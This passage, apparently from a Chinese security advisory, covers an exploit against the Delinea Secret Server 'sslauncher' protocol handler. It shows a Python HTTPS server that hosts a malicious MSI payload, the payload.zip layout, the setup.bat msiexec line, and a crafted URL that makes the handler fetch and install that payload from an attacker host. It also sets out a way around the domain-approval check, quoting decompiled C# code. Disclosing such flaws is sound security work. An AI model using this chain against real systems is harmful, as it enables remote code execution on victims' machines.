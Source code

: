 ```
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile=cert_file, keyfile=key_file)
    
    httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

    logging.info('Starting https server on port %d...', port)
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```  
  
  
压缩文件内容：  
  
```
payload.zip
└───SSProtocolHandler
    │ delinea.mst
    │ setup.bat
    │
    └───msi
            delinea.mst
            SSProtocolHandler.msi
```  
  
  
setup.bat文件内容如下：  
  
```
msiexec /i msi\\SSProtocolHandler.msi TRANSFORMS="delinea.mst"
```  
  
  
要触发处理程序并运行 MSI，可以使用以下 URL：  
  
```
sslauncher://aaaaaaa/?ssurl=https://hostingdomain.com/aaaa/bbbb/cccc&autoUpdateEnabled=true&apiversion=1
```  
  
  
**绕过警告**  
  
正如我们前面提到的，在某些情况下，可以绕过用户在针对新域使用协议处理程序时收到的批准对话框。  
  
在某些情况下，可以利用 C# 中 Uri 和字符串对象之间的解析器差异来绕过对先前授权域的检查。  
  
检查 ssurl 域是否已预先批准的代码位于 RDPWin.Business.dll 中的 RDPWin.Bootstrapper.SecretServerUrlApprovalHelper.GetSecretServerUrlApproval() 函数中，该函数将 ssurl 域作为字符串，并将其与 %APPDATA%\Thycotic\SSUA.dat 中存储的值进行比较：  
  
```
public static SecretServerUrlApprovalBase GetSecretServerUrlApproval(string ssUrl)
        {
            IMessageBox messageBox = IoC.Resolve<IMessageBox>();
            ISecretServerUrlApprovalProvider secretServerUrlApprovalProvider = IoC.Resolve<ISecretServerUrlApprovalProvider>();
            string ssUrlBase = SecretServerUrlApprovalHelper.GetSecretServerUrlBase(ssUrl);
            if (ssUrlBase == null)
            {
                throw new ArgumentException("Invalid Secret Server URL: " + ssUrl);
            }
            SecretServerUrlApprovals secretServerUrlApprovals = secretServerUrlApprovalProvider.GetSecretServerUrlApprovals();
            SecretServerUrlApprovalBase secretServerUrlApprovalBase = secretServerUrlApprovals.Approvals.FirstOrDefault((SecretServerUrlApprovalBase approval) => approval.SecretServerUrl == ssUrlBase);
            if (secretServerUrlApprovalBase != null)
            {
                SecretServerUrlApprovalHelper._log.Debug("Existing host approval found for URL " + ssUrlBase);
```